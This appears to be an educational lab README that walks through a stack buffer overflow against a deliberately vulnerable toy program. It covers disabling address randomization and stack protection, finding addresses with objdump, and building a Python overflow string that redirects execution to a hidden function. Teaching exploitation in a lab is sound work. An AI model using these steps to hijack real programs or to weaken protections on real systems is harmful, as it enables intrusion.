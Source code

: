 Source code from https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/

Modifications made for a 64-bit system, because that's probably what you have. 

*******

## Running the exploit

Run `sudo sysctl kernel.randomize_va_space=0` in your terminal, which will temporarily turn stack randomization off for just this session. 

Open the `vuln.c` file. What does it do? How would you get to the secret function? 

Run the command `gcc vuln.c -o vuln -fno-stack-protector -g`. This compiles the `vuln.c` program into an executable `vuln` program. `-fno-stack-protector` turns off all the things that a good compiler should do to prevent you from doing this exploit. `-g` allows you to open the executable in a debugger. (Since a Makefile is provided, you can also just run `make` since that's shorter to type, but this is the command that's actually getting run.) 

Try out the program. Run `./vuln` and give it some text so you can see how the program's expected to work. 

Run `objdump -d vuln > myVulnDump`, which allows you to look through the machine instructions for the executable. Note that you can get this objdump without the original C source file. You can now open myVulnDump with `nano` or some other text editor. 
<br>
<details>
  <summary>It's not working!</summary>
  If you really can't get the objdump to work, I've provided it as `dumpfile`.
</details>
<br>
In the dumpfile, locate the address in main where the echo function should return to when it's finished. This is the address that will get pushed to the stack, and then the program will expect it to be there later. Except we're going to overwrite it to a different address. 
<br>
<details> 
  <summary>The return address should be... </summary>
  0x400640
</details>
<br>
Also in the dumpfile, locate the address of the secret function. This is what we'll be overwriting the last address with. 
<br>
<details> 
  <summary>The address of secretFunction should be... </summary>
  0x4005d6
</details>
<br>
Construct a hex string that will overflow the buffer with a set number of random characters followed by the return address of the secret function. I used Python: `python -c 'print "a"*40 + "\xd6\x05\x40"' > myBadString`. (If you discovered that yours has a different return address, use that one instead.) If you're curious, you can use hexdump to figure out what got put into the myBadString file: `hexdump myBadString`
<br>
<details>
  <summary>It's not working!</summary>
  Because of how different machines' endianness works, the bytes of the string are reversed for mine; if this doesn't work, try substituting `\x40\x05\xd6`.
</details>
<br>
Now run the `vuln` program with the string you put into `myBadString`: `./vuln < myBadString`. 

And that's it! 

![I'm in.](in.gif)
https://media.giphy.com/media/xUOxf0mVWDzAX9HkOY/giphy.gif

